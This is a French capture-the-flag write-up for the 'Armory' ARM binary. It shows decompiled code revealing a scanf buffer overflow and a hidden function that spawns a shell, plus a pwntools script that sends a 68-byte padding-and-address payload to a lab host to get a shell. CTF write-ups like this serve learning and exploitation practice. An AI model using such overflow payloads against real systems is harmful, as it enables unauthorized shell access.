 # Armory 

On nous donne un file armory pour tester notre exploit avant de le tenter avec netcat.

```bash
$ file armory
armory: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=aaa2d5ba6d3a6cf3958eb9073e673795c2f1e24e, not stripped
```

et quand on le lance : 
```bash
Hello, what's your name?
test
Hello test!
```

On sent le buffer overflow arrivé. Je lance ghidra et j'analyse le programme.

Voici la fonction main:
```c
undefined4 main(void)
{
  undefined auStack72 [64];
  
  puts("Hello, what\'s your name?");
  fflush((FILE *)0x0);
  __isoc99_scanf(&DAT_00010678,auStack72);
  printf("Hello %s!\n",auStack72);
  fflush((FILE *)0x0);
  return 0;
}
```

Un scanf dans un buffer de 64 bytes, le voilà notre buffer overflow. 

De plus, on remarque la fonction evil : 
```c
int evil(void)
{
  int iVar1;
  
  iVar1 = system("/bin/dash");
  return iVar1;
}
```
On récupère l'addresse de cette fonction: 0001052c

et on construit notre payload: 64\*A pour remplir notre buffer, 4\*B pour écrire au-dessus du base pointer et enfin notre adresse \x2c\x05\x01\x00 ! 

```python 
import pwn

def exploit():
    conn = pwn.remote("172.25.106.194",4000)
    while conn.can_recv(timeout=1):
        conn.sendlineafter("Hello, what's your name?\n","A"*68+"\x2c\x05\x01\x00")
        conn.interactive()

exploit()
```

Et on peut récupérer tranquillement le flag ! 


